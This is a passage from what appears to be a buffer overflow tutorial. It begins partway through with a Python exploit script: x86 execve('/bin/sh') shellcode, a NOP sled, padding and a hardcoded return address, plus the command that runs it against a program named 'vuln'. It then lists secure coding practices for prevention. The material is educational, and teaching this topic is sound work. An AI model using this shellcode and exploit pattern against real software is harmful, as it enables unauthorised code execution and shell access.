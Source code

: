 4. **Craft the exploit**:
   ```python
   # exploit.py
   import struct
   
   # Return address (address where our shellcode will be)
   ret_addr = struct.pack("<I", 0xbffff5c0)  # Example address
   
   # NOP sled
   nop_sled = "\x90" * 20
   
   # Shellcode (execve("/bin/sh"))
   shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
   
   # Exploit string
   padding = "A" * 112  # Offset to return address
   exploit = padding + ret_addr + nop_sled + shellcode
   
   print(exploit)
   ```

5. **Execute the exploit**:
   ```bash
   ./vuln $(python exploit.py)
   ```

## Preventing Buffer Overflows

### Secure Coding Practices

1. **Use Safe Functions**:
   - Replace unsafe functions like `gets()`, `strcpy()`, `sprintf()` with safer alternatives:
     - `fgets()` instead of `gets()`
     - `strncpy()` instead of `strcpy()`
     - `snprintf()` instead of `sprintf()`

2. **Bounds Checking**:
   - Always validate input lengths before copying
   - Use strict array indexing
   - Consider using languages with automatic bounds checking

3. **Input Validation**:
   - Validate all input for length and content
   - Reject unexpected input formats
   - Sanitize input before processing

4. **Use Safe Libraries**:
   - Consider libraries with built-in bounds checking
   - C++ STL containers handle memory management automatically
   - Use frameworks that emphasize security

### System-Level Protections
